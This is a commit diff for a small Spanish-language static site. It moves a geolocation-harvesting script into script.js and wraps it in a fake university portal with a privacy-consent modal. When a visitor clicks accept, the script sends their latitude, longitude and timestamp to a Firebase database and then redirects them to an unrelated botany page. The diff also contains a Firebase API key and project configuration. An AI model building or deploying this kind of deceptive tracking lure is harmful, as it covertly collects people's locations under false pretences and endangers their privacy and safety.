

Before and after one commit to KaltWoda/pagina, a plain HTML site: page index.html in a window 1280 px wide. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
cambio css3

```diff
--- a/index.html
+++ b/index.html
@@ -3,62 +3,28 @@
 <head>
     <meta charset="UTF-8">
     <meta name="viewport" content="width=device-width, initial-scale=1.0">
-    <title>Ubicación en Tiempo Real</title>
+    <title>Portal Universitario - Ubicación</title>
     <link rel="stylesheet" href="style.css">
-    <script type="module">
-        // Importar Firebase
-        import { initializeApp } from "https://www.gstatic.com/firebasejs/11.3.0/firebase-app.js";
-        import { getDatabase, ref, push } from "https://www.gstatic.com/firebasejs/11.3.0/firebase-database.js";
+</head>
+<body>
 
-        // Configuración de Firebase
-        const firebaseConfig = {
-            apiKey: "AIzaSyDo4j7zm_poOFz5tRUkRULjxrZO2jlOuaM",
-            authDomain: "ubicacionesweb.firebaseapp.com",
-            databaseURL: "https://ubicacionesweb-default-rtdb.firebaseio.com",
-            projectId: "ubicacionesweb",
-            storageBucket: "ubicacionesweb.firebasestorage.app",
-            messagingSenderId: "916561063858",
-            appId: "1:916561063858:web:316104fb181e9377fabeab"
-        };
+    <header>
+        <h1>Universidad Nacional del Saber</h1>
+    </header>
 
-        // Inicializar Firebase
-        const app = initializeApp(firebaseConfig);
-        const database = getDatabase(app);
+    <main>
+        <!-- Modal de Políticas -->
+        <section class="modal" id="politicas">
+            <div class="modal-content">
+                <h2>Política de Privacidad y Cookies</h2>
+                <p>Para mejorar su experiencia y brindarle servicios personalizados, nuestra plataforma solicita acceso a su ubicación.</p>
+                <p>Al aceptar, confirma que ha leído nuestras <a href="#">políticas de privacidad</a>.</p>
+                <button id="aceptar">Aceptar y continuar</button>
+            </div>
+        </section>
+    </main>
 
-        // Definir la función en window para que onload pueda acceder
-        window.obtenerUbicacion = function() {
-            if (navigator.geolocation) {
-                navigator.geolocation.getCurrentPosition(
-                    function(position) {
-                        let lat = position.coords.latitude;
-                        let lon = position.coords.longitude;
-                        let timestamp = new Date().toLocaleString();
+    <script type="module" src="script.js"></script>
 
-                        // Guardar en Firebase
-                        push(ref(database, "ubicaciones"), {
-                            latitud: lat,
-                            longitud: lon,
-                            fecha: timestamp
-                        }).then(() => {
-                            console.log("Ubicación guardada en Firebase:", lat, lon);
-                        }).catch(error => {
-                            console.error("Error al guardar ubicación:", error);
-                        });
-
-                        // Redirigir a otra página
-                        window.location.href = "https://concepto.de/botanica/";
-                    },
-                    function(error) {
-                        alert("Debes permitir el acceso a la ubicación.");
-                    }
-                );
-            } else {
-                alert("Tu navegador no soporta geolocalización.");
-            }
-        };
-    </script>
-</head>
-<body onload="obtenerUbicacion()">
-    <h2>Obteniendo tu ubicación...</h2>
 </body>
 </html>
--- /dev/null
+++ b/script.js
@@ -0,0 +1,56 @@
+// Importar Firebase
+import { initializeApp } from "https://www.gstatic.com/firebasejs/11.3.0/firebase-app.js";
+import { getDatabase, ref, push } from "https://www.gstatic.com/firebasejs/11.3.0/firebase-database.js";
+
+// Configuración de Firebase
+const firebaseConfig = {
+    apiKey: "AIzaSyDo4j7zm_poOFz5tRUkRULjxrZO2jlOuaM",
+    authDomain: "ubicacionesweb.firebaseapp.com",
+    databaseURL: "https://ubicacionesweb-default-rtdb.firebaseio.com",
+    projectId: "ubicacionesweb",
+    storageBucket: "ubicacionesweb.firebasestorage.app",
+    messagingSenderId: "916561063858",
+    appId: "1:916561063858:web:316104fb181e9377fabeab"
+};
+
+// Inicializar Firebase
+const app = initializeApp(firebaseConfig);
+const database = getDatabase(app);
+
+// Función para obtener ubicación
+function obtenerUbicacion() {
+    if (navigator.geolocation) {
+        navigator.geolocation.getCurrentPosition(
+            function(position) {
+                let lat = position.coords.latitude;
+                let lon = position.coords.longitude;
+                let timestamp = new Date().toLocaleString();
+
+                // Guardar en Firebase
+                push(ref(database, "ubicaciones"), {
+                    latitud: lat,
+                    longitud: lon,
+                    fecha: timestamp
+                }).then(() => {
+                    console.log("Ubicación guardada en Firebase:", lat, lon);
+                }).catch(error => {
+                    console.error("Error al guardar ubicación:", error);
+                });
+
+                // Redirigir a otra página
+                window.location.href = "https://concepto.de/botanica/";
+            },
+            function(error) {
+                alert("Debes permitir el acceso a la ubicación.");
+            }
+        );
+    } else {
+        alert("Tu navegador no soporta geolocalización.");
+    }
+}
+
+// Mostrar modal de políticas
+document.getElementById("aceptar").addEventListener("click", function() {
+    document.getElementById("politicas").style.display = "none";
+    obtenerUbicacion();
+});
--- a/style.css
+++ b/style.css
@@ -1,42 +1,61 @@
+/* Estilos generales */
 body {
     font-family: Arial, sans-serif;
+    margin: 0;
+    padding: 0;
     background-color: #f4f4f4;
+    text-align: center;
+}
+
+/* Encabezado */
+header {
+    background-color: #003366;
+    color: white;
+    padding: 15px;
+    font-size: 1.5em;
+}
+
+/* Modal de políticas */
+.modal {
+    position: fixed;
+    top: 0;
+    left: 0;
+    width: 100%;
+    height: 100%;
+    background: rgba(0, 0, 0, 0.7);
     display: flex;
     justify-content: center;
     align-items: center;
-    height: 100vh;
+}
+
+.modal-content {
+    background: white;
+    padding: 20px;
+    border-radius: 10px;
+    max-width: 400px;
     text-align: center;
 }
 
-.container {
-    background: white;
-    padding: 20px;
-    border-radius: 10px;
-    box-shadow: 0px 4px 10px rgba(0, 0, 0, 0.1);
+.modal-content h2 {
+    color: #003366;
 }
 
-h2 {
-    color: #333;
-    margin-bottom: 10px;
+.modal-content a {
+    color: #007bff;
+    text-decoration: none;
 }
 
-p {
-    color: #666;
-    font-size: 16px;
-    margin-bottom: 20px;
+.modal-content button {
+    background-color: #003366;
+    color: white;
+    border: none;
+    padding: 10px 20px;
+    cursor: pointer;
+    font-size: 1em;
+    margin-top: 10px;
+    border-radius: 5px;
 }
 
-.btn {
-    background: #007bff;
-    color: white;
-    padding: 12px 20px;
-    border: none;
-    border-radius: 5px;
-    cursor: pointer;
-    font-size: 16px;
-    transition: 0.3s;
+.modal-content button:hover {
+    background-color: #0055aa;
 }
-
-.btn:hover {
-    background: #0056b3;
-}
```
